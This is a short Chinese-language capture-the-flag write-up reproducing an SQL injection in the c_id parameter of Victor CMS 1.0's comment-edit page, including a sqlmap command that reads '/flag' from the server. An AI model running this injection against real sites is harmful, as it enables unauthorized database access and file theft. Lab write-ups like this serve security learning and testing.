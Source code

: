 ## 1. 漏洞介绍
Victor CMS 1.0 admin_edit_comment.php c_id参数存在sql注入
[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2020-35597)
## 2. 漏洞复现
注册账号并登录，访问 `http://eci-……………….cloudeci1.ichunqiu.com/admin/comment.php?source=edit_comment&c_id=1` 并抓包，用sqlmap进行post注入即可

```shell
python sqlmap.py -r post.txt -p c_id --file-read "/flag"  --random-agent --batch
```

![2.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309262227083.png)
